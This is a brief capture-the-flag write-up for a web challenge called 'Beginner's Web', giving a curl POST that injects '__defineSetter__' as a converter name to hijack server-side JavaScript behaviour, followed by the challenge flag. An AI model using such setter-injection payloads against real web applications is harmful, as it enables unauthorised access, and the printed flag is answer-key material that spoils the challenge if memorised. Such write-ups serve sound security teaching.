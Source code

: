 # Beginner's Web Writeup

## Solution

After you got the session id from the browser, run the following command in your terminal:

    export SESSIONID=(your session id here)
    curl -XPOST http://34.85.124.174:59101/ -d "converter=__defineSetter__&input=FLAG_$SESSIONID"

Then, hit the "Submit" button in the original browser window (quickly!).

## Flag

`TSGCTF{Goo00o0o000o000ood_job!_you_are_rEADy_7o_do_m0re_Web}`